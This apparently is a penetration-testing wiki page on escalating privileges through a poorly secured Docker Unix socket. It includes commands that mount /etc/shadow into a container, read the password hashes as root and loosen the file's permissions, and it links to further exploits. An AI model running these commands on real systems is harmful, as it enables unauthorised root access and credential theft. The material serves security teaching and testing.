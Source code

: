 # Unix Socket Exploitation

A Unix socket is another component in \*nix systems that you can leverage to escalate your privileges.To safely use a Unix socket, the appropriate security measures/permissions must be implemented beforehand. As you can imagine, this is not always the case.

#### The easiest to follow example on how to leverage an insufficiently secured Unix socket is Docker. By design, the docker daemon binds to a Unix socket instead of a TCP port. By default, that Unix socket is owned by the user root; additionally, the docker daemon always runs as the root user.

Suppose you landed on a machine and the current user is an unprivileged user, that happens to have access to the docker command (he is part of docker group). Also, suppose that the docker Unix socket is not protected by implementing the appropriate permissions.

Let’s see how we could escalate our privileges in that machine. Specifically, let try to access /etc/shadow.

```
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres
docker exec -ti {CONTAINER_ID} bash
root@XXXXXXXXXXXX:/# cat /docker/hashedpasswords > /docker/test.txt
root@XXXXXXXXXXXX:/# chmod 777 /docker/test.txt
root@XXXXXXXXXXXX:/# cat /docker/test.txt
```

![](<../../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1).png>)

Two more interesting examples on leveraging Unix sockets for privilege escalation are the following:\
\
[https://www.exploit-db.com/exploits/40962/](https://www.exploit-db.com/exploits/40962/)\
[https://github.com/rapid7/metasploit-framework/pull/9408/files](https://github.com/rapid7/metasploit-framework/pull/9408/files)\\
